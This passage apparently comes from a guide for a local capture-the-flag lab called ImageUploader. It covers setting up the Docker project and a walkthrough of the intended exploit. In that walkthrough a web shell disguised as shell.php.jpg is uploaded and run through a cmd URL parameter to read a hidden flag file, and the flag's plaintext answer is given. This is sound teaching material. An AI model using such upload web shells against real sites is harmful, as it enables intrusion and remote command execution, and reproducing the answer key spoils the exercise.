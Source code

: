    - Or use an online Base64 decoder.
6. **Hint**: The flag is obscured—try decoding it!

## Flag
`xAI_CTF{Upload_Expl01t3d}`
```

---

### **How to Set It Up**

1. **Create the Directory Structure**:
   - Manually create the folders and files, or use:
     ```bash
     mkdir -p ImageUploader/src/uploads
     cd ImageUploader
     touch Dockerfile docker-compose.yml secret_flag.txt README.md
     cd src
     touch index.php upload.php style.css
     cd uploads
     touch .gitkeep
     ```

2. **Add the Code**:
   - Copy and paste the contents into each file using a text editor (e.g., VS Code).

3. **Verify `secret_flag.txt`**:
   - Ensure `secret_flag.txt` contains `eEFJX0NURntVcGxvYWRfRXhwbDF0M2R9`.

4. **Build and Run**:
   - From `ImageUploader/`:
     ```bash
     docker-compose up --build
     ```
   - Access: `http://localhost:8080`.

5. **Test the Exploit**:
   - Upload `shell.php.jpg` (code from `README.md`).
   - Run:
     ```
     http://localhost:8080/uploads/shell.php.jpg?cmd=cat /var/hidden/secret_flag.txt
     ```
     - Output: `eEFJX0NURntVcGxvYWRfRXhwbDF0M2R9`.
   - Decode:
     ```powershell
     [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("eEFJX0NURntVcGxvYWRfRXhwbDF0M2R9"))
     ```
     - Result: `xAI_CTF{Upload_Expl01t3d}`.

6. **Stop**:
   ```bash
   docker-compose down
   ```

---